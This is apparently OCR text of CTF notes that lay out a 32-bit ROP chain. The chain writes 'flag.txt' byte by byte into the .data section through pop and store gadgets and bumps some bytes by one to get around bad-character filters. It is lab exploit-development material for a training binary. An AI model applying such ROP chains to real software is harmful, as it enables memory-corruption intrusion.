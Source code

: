 	 = "\x66\x00\x00\x00\x00"
        _______________________________________
        edi3
         = &data + 0x3
         = 0x0804a01b                            4B
        _______________________________________
	ebp3
	 = edi3
         = 0x0804a01b                            4B
        _______________________________________
	eip = usefulGadget to store string
        ________________________________________
	eip = usefulGadget to add 1 to \x66
        ________________________________________


so, now we should have "flag" in memory at .data (0x..18)

so, let's continue so that it reads "flag.txt" at .data...

	________________________________________
        eip = rop gadget to pop edi, esi, ebp
        ________________________________________
        esi4
         = "\x2d\x00\x00\x00\x00"
        _______________________________________
        edi4
         = &data + 0x4
         = 0x0804a01c                            4B
        _______________________________________
        ebp4
         = edi4
         = 0x0804a01c                            4B
        _______________________________________
        eip = usefulGadget to store string
        ________________________________________
        eip = usefulGadget to add 1 to \x2d
        ________________________________________
        eip = rop gadget to pop edi, esi, ebp
        ________________________________________
        esi5
         = "\x74\x00\x00\x00\x00"
        _______________________________________
        edi5
         = &data + 0x5
         = 0x0804a01d                            4B
        _______________________________________
        ebp5
         = edi5 
         = 0x0804a01d                            4B
        _______________________________________
        eip = usefulGadget to store string
        ________________________________________
        eip = rop gadget to pop edi, esi, ebp
        ________________________________________
        esi6
         = "\x77\x00\x00\x00\x00"
        _______________________________________
        edi6
         = &data + 0x6
         = 0x0804a01e                            4B